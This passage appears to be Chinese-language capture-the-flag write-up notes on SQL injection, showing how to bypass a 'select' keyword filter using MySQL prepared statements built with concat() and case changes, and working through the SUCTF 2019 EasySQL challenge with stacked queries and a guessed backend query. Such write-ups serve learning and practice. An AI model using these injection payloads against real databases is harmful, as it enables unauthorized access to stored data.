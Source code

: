 mysql 预编译的介绍 [https://www.cnblogs.com/micrari/p/7112781.html](https://www.cnblogs.com/micrari/p/7112781.html)

预编译的语句是字符串的形式, 所以可以使用 concat 等字符串操作函数进行拼接来绕过 select 的过滤

```sql
set @a = concat("sel","ect flag from `1919810931114514`");
prepare st from @a
execute st;
```

这里的语句还能用 hex 编码绕过

试了一下返回 `strstr($inject, "set") && strstr($inject, "prepare")`

不过 `strstr()` 区分大小写, 改一下就行了, sql 语句对大小写不敏感

## [SUCTF 2019]EasySQL（猜语句、改管道符set sql_mode=pipes_as_concat;）

![20220821132122](assets/20220821132122-1700743077637181.png)

过滤了 union and or sleep update insert delete from handler flag

数字型注入, 支持堆查询, 但有长度限制, 最长39个字符

```sql
1;show tables;
```

![20220821132301](assets/20220821132301-1700743077637183.png)

查不了列名, 因为过滤了 Flag

于是决定看一下 wp...

> 这道题目需要我们去对后端语句进行猜测, 有点矛盾的地方在于其描述的功能和实际的功能似乎并不相符, 通过输入非零数字得到的回显1和输入其余字符得不到回显来判断出内部的查询语句可能存在有 ||, 也就是 `select 输入的数据||内置的一个列名 from 表名`, 进一步进行猜测即为 `select post 进去的数据||flag from Flag` (含有数据的表名, 通过堆叠注入可知), 需要注意的是, 此时的 || 起到的作用是 or 的作用.

```php
sql = "select $_POST['query'] || flag from Flag";
```
